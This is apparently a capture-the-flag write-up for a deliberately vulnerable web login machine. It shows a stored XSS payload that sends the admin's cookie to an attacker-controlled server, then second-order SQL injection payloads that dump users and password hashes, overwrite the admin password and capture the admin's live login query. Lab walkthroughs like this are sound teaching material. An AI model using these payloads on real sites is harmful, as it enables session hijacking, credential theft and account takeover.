This is a machine where you discover a vulnerability, and it turns out that this vulnerability is not what you are searching for.

If you are an impatient person, then this room is not for you, as the machine has been set up to be extremely slow.

# Enumeration

Firstly, I ran nmap to discover the different ports available:

`nmap -sC -sV -v -p- -oN ports.txt 10.10.164.104`



There were only two ports open. I continued the enumeration on the HTTP server but there weren't any endpoints that stood out. So let's take a look at the web page : there was a register form and a login form.



I registered with the following credentials `test:test`





After logging in, there was a page that displayed the last connection times of the admin user and the account you are connected with.
The admin seemed to connect every minute, so it looks like an XSS scenario. Let's see where the entry point may be. The username of the account is reflected on the page, and after repeating the previous step with `<script>alert(1)</script>` as my username, I found an XSS:



# Exploit the XSS

We saw from the Nmap scan that the cookie `httponly` flag is not set, meaning it is possible to retrieve it with JavaScript.
Consequently, I decided to start a Python HTTP server in order to retrieve the cookie content.

`python3 -m http.server 8000`

Then a javascript payload was needed. As my username, I entered `<script>fetch("http://MY_IP:8000/?c="+encodeURIComponent(btoa(document.cookie)));</script>` and waited for the admin to show up.

Well, this didn't go as planned.



# SQLI or XSS ?

Since I had gotten no response from the admin, I supposed it was more likely to exploit the second-order SQLi instead of the XSS.

## SQLI Payloads

Below, I tried to dump the different tables available.

### Table names

`" union select 'NULL', table_name from information_schema.tables -- -`


There was 2 tables available, `users` and `logins`. I first wanted to get the content of users.

### Users table

`" union select 'NULL', column_name from information_schema.columns where table_name='users' -- -`



```" union select 'NULL', CONCAT(username, ' ', password, ' ', `group`) from users -- -```



Is it the password ? Nope ! Is it a hash then ? Doesn't seem so. https://hashes.com/en/tools/hash_identifier



 A rabbit hole ? Maybe.

### Logins Table

What do we have on `logins` : 

`" union select 'NULL', column_name from information_schema.columns where table_name='logins' -- -`



`" union select 'NULL', CONCAT(username, ' ', login_time) from logins -- -`



Well, at least we have confirmation that the admin user may exist. What can be done then ?

I said earlier that the password doesn't contain hashes. Well, I must be wrong. Remember that we created the test user with `test` as the password, which gave the result `098f6bcd462`. The question is: What kind of hash is that?

From the site https://www.dcode.fr/hash-identifier, Their guess that these hashes are cisco type 7.


However, after trying a few tools from the internet, I didn't manage to crack any password and the result for `test` using the cisco type 7 algorithm is completely different. Did I miss something ?

Let's come back to the hashes, cisco type 7 as database password hashes doesn't make any sense. Is the result cropped ?

```" union select 'NULL', LENGTH(CONCAT(username, ':', password, ':', `group`)) AS concatenated_length from users -- -```



A length of 44 for the admin line but we only got a line of 16 characters. Well, thinking about it, the second parameter was for last_login column name which is limited to 16 chars, meaning the backend is only returning the 16 first characters of the result.

So I needed to find a way to retrieve the whole content while being limited to 16 characters.

```" union select username, password from users where username='admin' union select username, substring(password, 17, 16) from users where username='admin' union select username, substring(password, 33, 16) from users where username='admin'-- -```



Is this the admin hash? It is, but I didn't manage to crack it. As for the other hashes, they were crackable but not useful.

## Stacked Query

What if I try to change the admin password ? This is what I did but it proved to be useless as you gain nothing by being admin inside the website.

```" union select '1', '22';  update users set password=md5('meow') where username='admin'; -- -```



## Change of method

In order to get the flag, we need to get inside the machine and to do that... we need the password.
I remembered that the admin logs in every minute, meaning they are sending their credentials every minute. To check whether the creds are valid, an SQL query is performed. The idea is here: we need to retrieve this query.
There exists a table that returns current processed queries, named  `INFORMATION_SCHEMA.PROCESSLIST`.
This table contains the `INFO` column which is the queries being executed.
I could have written a Python script to log what was happening, but I got lazy, so I preferred to wait a minute before retrieving the query.

```" union select '1', info from information_schema.processlist -- -```



I forgot about this problem XD. I retrieved the length of the admin query which is 180 and asked chatgpt to write this one query: 

``

```" UNION SELECT '1', SUBSTRING(info, 1, 16) FROM information_schema.processlist UNION SELECT '2', SUBSTRING(info, 17, 16) FROM information_schema.processlist UNION SELECT '3', SUBSTRING(info, 33, 16) FROM information_schema.processlist UNION SELECT '4', SUBSTRING(info, 49, 16) FROM information_schema.processlist UNION SELECT '5', SUBSTRING(info, 65, 16) FROM information_schema.processlist UNION SELECT '6', SUBSTRING(info, 81, 16) FROM information_schema.processlist UNION SELECT '7', SUBSTRING(info, 97, 16) FROM information_schema.processlist UNION SELECT '8', SUBSTRING(info, 113, 16) FROM information_schema.processlist UNION SELECT '9', SUBSTRING(info, 129, 16) FROM information_schema.processlist UNION SELECT '10', SUBSTRING(info, 145, 16) FROM information_schema.processlist UNION SELECT '11', SUBSTRING(info, 161, 16) FROM information_schema.processlist; -- -```



The response is unreadable but not impossbile to read XD. Again asking chatgpt, the query was reconstructed :

```sql
SELECT * FROM us
WHERE ers = 'usern' 
  AND ame = 'admin' 
  AND password = MD5('REDACTED')
UNION ALL SELECT null, null, null, SLEEP(5)
LIMIT 1;
```

# The flag

Using this password, all I needed to do was to connect through ssh with the creds and retrieve the flag.

